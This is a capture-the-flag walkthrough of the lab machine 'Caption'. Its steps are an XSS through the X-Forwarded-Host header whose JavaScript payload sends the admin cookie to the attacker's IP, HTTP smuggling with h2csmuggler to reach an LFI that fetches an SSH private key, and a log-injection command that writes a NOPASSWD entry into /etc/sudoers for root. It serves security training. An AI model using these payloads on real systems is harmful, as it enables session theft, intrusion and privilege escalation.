 Walkthrough of Caption (Dec-27-2024)
(Post the unintenional route fix, I skip all the uneeded things I did)

We start of by running an nmap scan on `10.10.11.33`. The scan shows port 8080 open. Navigating on caption.htb:8080, we see a GitBucket service, and we are able to access the commits made by root.
On one of the commits, we can see hard-coded credentials for the user `margo`. Going back to the main website on caption.htb, we can log in with those credentials.

#Getting the admin cookie

The exploit is on the /firewalls page. I used Burspuite to execute it. We start of by fuzzing for potential headers, and we found that the header X-Forwarded-Host returns a different response, thus making it
vulenrable. Upon testing for XSS, we find out that it is vulnerable to it. The exploit is found at the `utm_source?url=...` that we can see in the Burpsuite response. If we open a Python HTTP Server, we see that
it successfully reaches back to us, so now we can craft a payload that returns the admin cookie.

This is the payload.js:
```
async function getData() {
        var string = document.cookie;
        var encodedString = btoa(string);
        var url = 'http://yourip/hello?str=' + encodedString
        fetch(url).then(function(response) {
                return;
        }).catch(function(err) {
                return;
        });
}

getData();
```

Then we do `cat payload.js | base64 | tr -d '\n'; echo` to convert it to base64, and it should be something like that:
```
YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjM3L2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK
```

The exploit should look something like this:
```
X-FORWARDED-HOST: "></script><script>eval(atob(/YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjYxOjgwL2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK/.source));</script><script src="
```
If we start a local HTTP Server and refresh the page a couple of times, we get the admin cookie in base64 format and to decode it we run `echo "admin cookie" | base64 -d`

#HTTP smuggling

Logs are still not accessible, but it is hinted that we can perform HTTP smuggling in order to access it.
I used a Python tool called `h2csmuggler`. In the server, there is a .cpr directory. This directory holds an LFI exploit, and the paylod is as follows:
```
python3 h2csmuggler.py -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM1MjE4NzUyfQ.d4-wtGXYkoY69q2ZsDfG0u5asuW35hH6d-rLuRW69Y0" -X GET -x http://caption.htb/ http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252Fmargo%252F.ssh%252Fid_ecdsa
```
We can use this to download the `id_ecdsa` private key in order to log into margo with SSH.
```
chmod 600 id_ecdsa
ssh -i id_ecdsa margo@caption.htb
```
Now we can grab the user flag.

#Escalating to root

If we check on the GitBucket service again, we see a LogService repo, and if we check inside server.go we see a block of code that hints at command injection. The server executes as root logs. If we do
`ps aux | grep server.gp` we can see it's executed as root. With the help of our powerful tool ChatGPT and a couple other fellow users, I was able to craft the exploit to get root.
Below are the steps.
In the host PC:

```
cd /tmp
touch client.py
touch log_service.thrift
```
(sudo apt install thrift-compiler and also make a virtual env in python and install any needed packages)
client.py:
```py
import sys
sys.path.append('/tmp/gen-py')

from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

# Create a connection to the Thrift service
transport = TSocket.TSocket("127.0.0.1", 9090)
transport = TTransport.TBufferedTransport(transport)
protocol = TBinaryProtocol.TBinaryProtocol(transport)
client = LogService.Client(protocol)

# Open the connection
transport.open()

# Call the vulnerable function
try:
    result = client.ReadLogFile("/tmp/malicious.log")
    print("Response from server:", result)
except Exception as e:
    print("Error:", e)

# Close the connection
transport.close()
```
log_service.thrift
```
namespace go log_service
namespace py log_service
     
service LogService {
    string ReadLogFile(1: string filePath)
}
```
In margo's /tmp directory inside a file called `malicious.log`:
`127.0.0.1, "user-agent":"Mozilla'; echo 'margo ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers;#"`
That is then executed by the Python script. The log file adds the user `margo` to the /etc/sudoers file with no password, so now `margo` can do `sudo su` without
a password. Doing this switches the user to root, and then we can get the root flag.

Personal note: search for tools, in this case there was a tool `h2csmuggler` that another user told me I could take advantage of instead of manually doing the HTTP smuggling in Burpsuite.
